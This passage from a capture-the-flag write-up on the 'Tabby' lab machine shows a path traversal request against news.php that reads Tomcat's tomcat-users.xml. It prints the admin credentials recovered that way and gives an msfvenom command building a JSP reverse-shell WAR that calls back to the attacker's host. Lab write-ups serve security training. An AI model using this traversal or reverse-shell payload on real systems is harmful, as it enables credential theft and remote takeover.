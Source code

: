 Fire up burp and intercept the request to this URL

| http://megahosting.htb/news.php?file=../../../../../../usr/share/tomcat9/etc/tomcat-users.xml |
| --- |

Forward the intercepted request to the repeater (Ctrl + R), Once the request has been sent in the repeater, as I can see I have successfully obtained admin credentials for the tomcat server.

![](/img/tabby/2020-12-09_06-31.png)

**Credentials**

**User:** tomcat

**Pass:** $3cureP4s5w0rd123!

On viewing the manager page on successful login, I am now greeted with 403, this version of tomcat has restrictions in place so it can only be viewed from a browser on the target system.

![](/img/tabby/2020-12-09_06-38.png)

I have decided to create a .war reverse shell using msfvenom, I have exploited a lower version of tomcat before, and this will come in useful later.

| msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=10.10.14.60 LPORT=1234 -f war \&gt; shell.war |
| --- |

Referencing the documentation has shown that it is possible to deploy a .war application remotely. I already have the credentials so lets give this a go.
